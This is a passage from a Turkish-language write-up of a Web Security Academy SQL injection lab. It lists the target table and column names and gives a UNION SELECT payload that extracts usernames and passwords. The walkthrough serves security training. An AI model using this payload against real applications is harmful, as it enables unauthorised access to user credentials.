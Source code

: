 ![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2030.png)

```python
Tablo adı ve Kolon isimlerimizi not alıyoruz:
tablo: 
**USERS_XEDOYY
kolonlar:**
EMAIL
PASSWORD_VDQFLZ
USERNAME_ZIOPHP
```

Bu aşamadan sonra da bu kolonlardaki verileri çekmeye yönelik bir SQL sorgusu yazmamız gerekmektedir. Burada iki kolon da ekrana yazıldığı için concatenation yani birleştirme yapmamıza gerek yok.

```python
mdisec' UNION SELECT USERNAME_ZIOPHP,PASSWORD_VDQFLZ FROM USERS_XEDOYY --
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2031.png)

